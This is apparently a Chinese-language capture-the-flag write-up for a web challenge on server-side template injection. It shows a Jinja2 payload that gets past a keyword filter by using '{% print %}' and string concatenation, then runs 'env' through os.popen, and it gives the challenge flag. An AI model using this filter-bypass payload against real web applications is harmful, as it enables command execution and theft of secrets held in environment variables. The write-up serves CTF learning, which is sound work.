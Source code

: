 # Web-21｜第二十一章 往生漩涡·言灵死局

## 碎碎念

SSTI 2.0
***
## Writeup

相比上一道题，这道题 ban 掉了 `["__", "global", "{{", "}}"]`，因此上一道题提供的所有都不可行，但是我们可以通过一些手段绕过：

1. 对于 `{{` 和 `}}`，可以用 `{% print() %}` 代替绕过
2. 对于 `__` 和 `global`，可以通过拼接绕过

我使用的是 `{% print(lipsum['_''_glo''bals_''_']['os'].popen('env').read()) %}`，得到 flag：

![](../../../../assets/Pasted%20image%2020251029203827.png)

最终 flag：`moectf{bf38bf3b-96d9-9720-c013-64be1b7cea2b}`